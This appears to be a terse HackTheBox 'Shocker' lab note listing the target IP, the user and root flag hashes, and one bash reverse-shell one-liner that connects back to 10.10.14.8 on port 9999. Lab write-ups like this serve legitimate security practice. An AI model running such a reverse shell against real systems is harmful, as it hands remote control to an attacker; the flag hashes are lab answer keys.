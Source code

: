 # HackTheBox Shocker

> Saikat Karmakar | Jul 16 : 2021

> ip -> 10.10.10.56

---

1. user.txt
```
4108b5a90a56fbdbdf75a17865e3617b
```

2. root.txt
```
1737771c02c1377b86be72bf90a2d269
```
bash -i >& /dev/tcp/10.10.14.8/9999 0>&1